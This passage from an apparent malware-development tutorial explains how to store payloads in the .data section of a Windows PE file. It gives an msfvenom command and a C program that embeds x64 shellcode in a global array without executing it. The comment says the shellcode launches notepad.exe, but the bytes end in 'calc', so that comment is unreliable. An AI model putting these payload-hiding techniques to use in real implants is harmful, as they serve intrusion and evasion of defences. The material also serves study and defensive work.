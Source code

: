 With the preamble out of the way, let's go over each of the sections described above and discuss where, why, and how payload placement works for each.


### .data

The `.data` section of a PE file is a section of an executable file that contains initialized global and static variables. It's also readable and writable, making it an ideal place for an encrypted payload that requires decryption during runtime to reside.

The code snippet below, written in `C`, shows an example of having a payload stored in the `.data` section of a PE.

```c
#include <Windows.h>
#include <stdio.h>

// shellcode generated via msfvenom
// msfvenom -p windows/x64/exec CMD=notepad.exe -f c 
// payload saved in the .data section
unsigned char Data_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Data_RawData var : 0x%p \n", Data_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}
```

